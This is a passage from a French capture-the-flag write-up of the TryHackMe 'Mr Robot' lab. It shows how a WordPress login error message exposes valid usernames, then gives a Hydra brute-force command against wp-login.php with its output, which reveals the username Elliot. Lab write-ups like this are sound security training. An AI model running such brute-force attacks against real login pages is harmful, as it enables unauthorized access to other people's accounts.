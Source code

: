 ![page2](./Task1-02.png)

Sur la page d'identification quand on a mis un mauvais nom et mot de passe on a le message suivant : ERROR : invalid username.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -L fsocity.dic -p a robot.thm http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:Invalid' 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-17 18:40:19
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://robot.thm:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid
[80][http-post-form] host: robot.thm   login: Elliot   password: a
[80][http-post-form] host: robot.thm   login: elliot   password: a
```

Avec hydra on brute force le nom d'utilisateur on trouve le nom Elliot.   
